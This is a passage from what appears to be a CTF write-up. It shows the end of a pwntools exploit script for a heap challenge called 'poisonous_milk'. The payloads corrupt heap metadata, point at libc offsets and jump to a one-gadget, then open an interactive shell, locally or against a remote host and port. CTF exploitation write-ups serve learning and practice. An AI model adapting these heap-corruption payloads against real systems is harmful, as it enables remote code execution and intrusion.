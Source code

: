     payload += '\n'
    put_milk(payload, '\n')

    payload = p64(0x61) * 2
    payload += p64(0x404040)
    payload += p64(0x393939)
    payload += p64(0x41414141)*4
    put_milk(payload+'\n', '\n')

    remove(0)

    payload = '\x00' * 3
    payload += p64(0) * 4
    payload += p64(libc+0x3c3ae8)
    payload += p64(0)
    payload += p64(libc+0x3c3b78)
    payload += p64(libc+0x3c3b78)
    put_milk(payload+'\n', '\n')

    payload  = p64(0x41414141)*3
    payload += p64(libc + 0xf0567) * 4
    payload += '\n'
    put_milk(payload, '\n')

    r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./poisonous_milk'], env={"LD_PRELOAD":"./libc-2.23.so"})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

> Recommended articles
* [0ctf BabyHeap2017](http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html)

